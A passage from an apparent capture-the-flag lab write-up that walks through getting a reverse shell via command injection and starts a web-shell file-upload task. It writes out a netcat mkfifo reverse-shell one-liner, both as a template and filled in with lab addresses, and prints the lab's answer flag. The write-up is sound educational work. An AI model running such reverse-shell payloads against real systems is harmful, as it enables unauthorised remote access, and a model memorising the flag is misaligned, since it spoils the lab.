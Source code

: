 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760683995236/5a079b80-3fd5-43ff-9454-b31b69ea51e8.png align="center")

First, I need to listen on the specified IP and port. Second, I need a payload that will provide a reverse shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684004254/56a97d7d-7b07-4e04-bd8d-36f26396d3fa.png align="center")

Set up a netcat listener on port 8081. Once netcat started accepting connections from the target machine, I needed a payload to get a reverse shell on the web server.

The task originally provided a payload template:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

I replaced ATTACKER\_IP/PORT with my details:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.217.140 8081 >/tmp/f
```

**Then my AttackBox froze, so the data about my IP and the target IP changed.**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684013685/99d07eea-7849-44b6-b8bf-24355051976f.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684027091/ad18cdf3-c2f3-4ae5-a0a5-7b0be6fa6d75.png align="center")

The site is currently stuck loading while I can browse the server for the flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684038201/9d53d918-0bc9-47c9-8131-d5e9e9df1299.png align="center")

Listing the root directory and outputting the flag file contents using ***cat***.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684047486/bb4066a6-2c79-4a5c-8e26-06e2a13fd2fb.png align="center")

**Answer:** `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}`

### 🕸️ Question 2

Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the `/` directory?

Return to the landing page.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684056752/b7c01e18-c8a5-4547-9fee-08415bf7edc9.png align="center")

Our focus now is the “Web Shell Task.”

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1760684064998/8cf20c90-7a65-4359-a87a-b8f9a4d3ee1c.png align="center")

This is similar to the input command-injection vulnerability, but here an unrestricted file upload is used to gain a reverse shell — in other words, a web shell. I’ll accomplish this by uploading a small web shell.

Creating that **.php** web shell is critical for what comes next. You can either find or create a simple PHP snippet that can browse and display files via the URL.
